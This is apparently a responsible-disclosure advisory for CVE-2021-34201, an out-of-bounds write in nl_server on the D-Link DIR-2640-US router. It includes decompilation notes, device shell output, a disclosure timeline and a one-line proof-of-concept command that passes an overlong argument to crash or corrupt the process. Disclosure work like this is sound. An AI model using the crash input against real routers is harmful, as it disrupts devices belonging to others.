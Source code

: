 # Out-of-bounds Write in DIR-2640-US Router

## Overview

- **CVE ID**: [CVE-2021-34201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34201)

- **Type**: [Out-of-bounds Write *- (787)*](http://cwe.mitre.org/data/definitions/787.html)

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**: None

## Severity

**Medium** 4.4 CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:L

## Description

Multiple out-of-bounds vulnerabilities in some processes of D-Link AC2600(DIR-2640). Local ordinary users can overwrite the global variables in the .bss section, causing the process crashes or changes.

Ordinary users can run `nl_server`.

```shell
admin@dlinkrouter:~$ ls -l ./usr/bin/nl_server 
-rwxr-xr-x    1     18616 May 23  2021 ./usr/bin/nl_server
```

`nl_server`

```shell
admin@dlinkrouter:~$ ps
nl_server -i br0 -s dlinkrouter -s dlinkrouter3485 -s dlinkrouter.local -s dlinkrouter3485.local &
```

The decompiled code is as follows, the process does not limit the length of parameters entered by the user.

![main_function](images/main_function.png)

Is this parameter controllable externally?

![nl_server_rc](images/nl_server_rc.png)

```shell
admin@dlinkrouter:~$ cat /tmp/hosts
192.168.0.1  dlinkrouter
192.168.0.1  dlinkrouter3458
192.168.0.1  dlinkrouter.local
192.168.0.1  dlinkrouter3458.local
127.0.0.1 localhost
```

How is the variable `v4` obtained?

![nl_server_rc1](images/nl_server_rc1.png)

v4 = `WRSConfigGet()`, `WRSconfigGet` (`libwrscfg.so`)  =  `nvram_safe_get()`. The function is used to obtain the configuration information of the firmware. Further research we found that the configuration information is stored in the configuration file of the RT2860 wireless network card.

```shell
./etc_ro/Wireless/RT2860AP/RT2860_default_vlan-factory:393:lan0_management_link=dlinkrouter
./etc_ro/Wireless/RT2860AP/RT2860_default_vlan:416:lan0_management_link=dlinkrouter
```

[CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)  brought good news

> Is this parameter controllable externally?

## How to Reproduce (PoC)

```shell
nl_server -s aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbb
> 128
```

## Disclosure Timeline

- 8-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment

- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication

